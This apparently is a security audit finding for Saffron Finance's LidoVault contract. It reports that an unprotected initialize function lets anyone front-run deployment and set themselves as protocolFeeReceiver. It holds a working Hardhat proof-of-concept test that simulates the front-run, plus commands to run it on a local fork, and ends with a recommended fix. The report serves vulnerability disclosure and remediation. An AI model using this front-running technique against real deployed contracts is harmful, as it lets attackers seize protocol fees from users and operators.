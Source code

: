 Amusing Chili Reindeer

Medium

# Vault::initialize can be frontrunned allowing anyone to change vault's parameter such as  protocolFeeReceiver

## Summary
Vault::initialize can be frontrunned allowing anyone to change vault's parameter such as  protocolFeeReceiver  

## Vulnerability Detail
Vault::initialize doesnt have a mechanism (such as msg.sender check) that protect this method from unauthorized calls, allowing anyone to frontrun and initialize the vault with arbitrary parameters.
The only condition is that this vault's isFactoryCreated value equals to false, this value is set in constructor
```solidity
  constructor(bool _initialize) {
    isFactoryCreated = _initialize;
  }
```
And used in initialize method
```solidity
  function initialize(InitializationParams memory params) external {
    require(isFactoryCreated != true, "MBF");	//<@ only check
    // Only run once by vault factory in atomic operation right after cloning, then fixedSideCapacity is set
    require(fixedSideCapacity == 0, "ORO");
```
If this is the case (vault.isFactoryCreated = false), an attacker could call initialize with arbitrary parameters, such as setting himself as protocolFeeReceiver using a higher gas price to front run legitimate initialization call.  

To demonstrate this issue the following PoC is provided.  
Deployer D address deploys a new vault with initialize constructor param set to false.  
Deployer next calls vault::initialize setting himself as protocolFeeReceiver  
Attacker front runs deployer initialize call setting attacker address as protocolFeeReceiver  
Deployer initialize call failed and attacker is now the protocolFeeReceiver  

To execute this test save this code as LVFrontrunInitialize.test.ts in test dir:  
```js
import { time, loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers'
import { anyValue, anyUint } from '@nomicfoundation/hardhat-chai-matchers/withArgs'
import { assert, expect } from 'chai'
import { AddressLike, BigNumberish, ContractTransactionReceipt, parseEther, formatEther } from 'ethers'
import { ethers } from 'hardhat'

import { LidoVault, VaultFactory } from '../typechain-types'
import { ContractMethodArgs } from '../typechain-types/common'
import { ILidoVaultInitializer } from '../typechain-types/contracts/LidoVault'
import {
  compareWithBpsTolerance,
  decodeLidoErrorData,
  finalizeLidoWithdrawalRequests,
  getLidoContract,
  getWithdrawalQueueERC721Contract,
  submitOracleReport,
  BIG_INT_ZERO,
  BIG_INT_ONE,
  BIG_INT_10K,
  DEFAULTS,
  SIDE,
  ONE_ADDRESS,
  ZERO_ADDRESS,
  setupMockLidoContracts,
} from './helpers'

describe('AAALidoVault', function () {
  let nextVaultId = 0

  async function deployVault({
    durationSeconds = DEFAULTS.durationSeconds,
    fixedSideCapacity = DEFAULTS.fixedSideCapacity,
    variableSideCapacity = fixedSideCapacity * BigInt(DEFAULTS.fixedPremiumBps) / BigInt(10000),
    earlyExitFeeBps = DEFAULTS.earlyExitFeeBps,
    protocolFeeBps = DEFAULTS.protocolFeeBps,
    protocolFeeReceiver,
    admin,
  }: {
    durationSeconds?: number
    fixedSideCapacity?: BigInt
    variableSideCapacity?: BigInt
    earlyExitFeeBps?: number
    protocolFeeBps?: number
    protocolFeeReceiver?: string
    admin?: string
  }) {
    let LidoVaultFactory = await ethers.getContractFactory('LidoVault')

    let deployer
    let addr1
    let addr2
    let addr3
    let addr4
    let addrs
    ;[deployer, addr1, addr2, addr3, addr4, ...addrs] = await ethers.getSigners()

    const feeReceiver = protocolFeeReceiver ?? deployer

    const vaultId = ++nextVaultId
    const lidoVault: LidoVault = (await LidoVaultFactory.deploy(false)) as any

    const lidoVaultAddress = await lidoVault.getAddress()
    const lidoContract = await getLidoContract(deployer)
    const lidoWithdrawalQueueContract = getWithdrawalQueueERC721Contract(deployer)

    return {
      lidoVault,
      deployer,
      addr1,
      addr2,
      addr3,
      addr4,
      addrs,
      vaultId,
      protocolFeeReceiver: feeReceiver,
      lidoVaultAddress,
      lidoContract,
      lidoWithdrawalQueueContract,
    }
  }

  const deployLidoVaultFixture = () => deployVault({})
  describe('AAAVault not Started', function () {
    describe('Deposit', function () {

      describe('Fixed Side', function () {
        it('AAATest', async function () {
          this.timeout(30000);
          const { lidoVault, deployer, addr1, addr2, addr3, lidoWithdrawalQueueContract } = await loadFixture(deployLidoVaultFixture)
          console.log("== Addresses ==")
          console.log("deployer\t\t\t",deployer.address);
          console.log("addr3\t\t\t\t",addr3.address);

          // == Disable automining to simulate frontrun
          await ethers.provider.send("evm_setAutomine", [false]);

          // == deployer tries to initialize vault
          console.log("\ndeployer tries to initialize vault with his address as protocolFeeReceiver");
          await lidoVault.connect(deployer).initialize(
            {
              vaultId: 1234,
              duration: 1,
              fixedSideCapacity: BigInt(100_000_000_0000_000_000),
              variableSideCapacity: 3,
              earlyExitFeeBps: 4,
              protocolFeeBps: 5,
              protocolFeeReceiver: deployer.address
            } as ILidoVaultInitializer.InitializationParamsStruct,
            { gasPrice: 50000, gasLimit: 1000000 }
          )

          console.log("addr3 frontruns and calls vault.initialize with his address as protocolFeeReceiver")
          await lidoVault.connect(addr3).initialize(
            {
              vaultId: 1337,
              duration: 1,
              fixedSideCapacity: BigInt(110_000_000_0000_000_000),
              variableSideCapacity: 3,
              earlyExitFeeBps: 4,
              protocolFeeBps: 5,
              protocolFeeReceiver: addr3.address
            } as ILidoVaultInitializer.InitializationParamsStruct,
            { gasPrice: 100000, gasLimit: 1000000 }
          )
          await ethers.provider.send("hardhat_mine", ["1"]);
          await ethers.provider.send("evm_setAutomine", [true]);

          console.log("\nIf frontrunning worked vault's protocolFeeReceiver == address3");
          console.log(
            "lidoVault.protocolFeeReceiver() ",
            await lidoVault.protocolFeeReceiver()
          );
        })
      })
    })
  })
})
```  

Next start a forked node (in this case anvil was used )
```bash
reset;anvil --fork-url https://rpc.ankr.com/eth --fork-block-number  18562954 --fork-chain-id 31337 --block-base-fee-per-gas 10000
```
Execute this test with:
```bash
npx hardhat test test/LVFrontrunInitialize.test.ts --network localhost
```
Observe deposit call is front runned and now attacker is the protocolFeeReceiver address    

## Impact
Vault integrity is impacted because unauthorized arbitrary parameter changes are possible  

## Code Snippet
https://github.com/sherlock-audit/2024-08-saffron-finance/blob/38dd9c8436db341c331f1b14545770c1766fc0ee/lido-fiv/contracts/LidoVault.sol#L276-L279


## Tool used

Manual Review

## Recommendation
Implement an additional check to only allow initialization from vault deployer:
```solidity
	address deployer;  //<@ new var
	constructor(bool _initialize) {
		isFactoryCreated = _initialize;
		deployer = msg.sender;
	}

	function initialize(InitializationParams memory params) external {
		//...
		require(isFactoryCreated != true && msg.sender == deployer, "MBF"); //<@ additional check
```